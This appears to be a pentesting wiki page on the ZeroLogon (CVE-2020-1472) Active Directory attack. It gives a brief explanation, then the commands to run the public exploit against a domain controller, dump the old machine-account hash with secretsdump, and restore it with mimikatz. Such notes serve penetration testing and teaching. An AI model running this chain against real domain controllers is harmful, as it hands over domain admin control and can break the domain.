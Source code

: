 # 🛠️ ZeroLogon

## Theory

This attack exploits an insecure customized cryptographic protocol used in the NetLogon Remote Protocol. It allows attackers to change the password of the domain controller computer account, hence giving those attackers domain admin privileges.

## Practice

This exploit changes the NT hash of the domain controller computer account in the Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent denial of service, attackers can exploit the CVE, find the NT hash of the domain controller machine account before it was changed, and set it back in the AD.

```bash
# Exploit the CVE (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
python3 cve-2020-1472-exploit.py $DC_name $DC_IP

# (secretsdump) Find the old NT hash of the DC
secretsdump -history -just-dc-user 'DC_name$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_name$@DC.DOMAIN'

# (mimikatz) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'DC.DOMAIN'  /user:'DC_name$' /oldntlm:31d6cfe0d16ae931b73c59d7e0c089c0 /newntlm:<old nt hash>
```

//TODO : study this in depth, espacially the hash history part, work on the stability

## References

{% embed url="https://www.secura.com/blog/zero-logon" caption="" %}


